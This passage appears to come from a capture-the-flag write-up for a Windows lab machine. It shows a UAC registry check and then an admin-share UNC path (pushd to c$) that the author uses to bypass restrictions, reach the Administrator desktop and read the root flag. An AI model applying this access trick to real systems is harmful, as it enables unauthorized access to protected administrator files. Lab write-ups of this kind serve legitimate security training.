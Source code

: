 ```
PS C:\Users\Batman\Documents> (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System).EnableLUA
1
```

For some reason, if I use UNC paths I can access to the administrator directory... So this is probably unintended by the box creator but it does get me the flag :)

```
C:\Users\Batman\Documents>pushd \\10.10.10.130\c$

Z:\>cd \users\administrator\desktop

Z:\Users\Administrator\Desktop>dir
 Volume in drive Z has no label.
 Volume Serial Number is FA90-3873

 Directory of Z:\Users\Administrator\Desktop

02/03/2019  09:32 AM    <DIR>          .
02/03/2019  09:32 AM    <DIR>          ..
02/03/2019  09:32 AM                70 root.txt
               1 File(s)             70 bytes
               2 Dir(s)   8,710,045,696 bytes free

Z:\Users\Administrator\Desktop>type root.txt
type root.txt
636783...
```
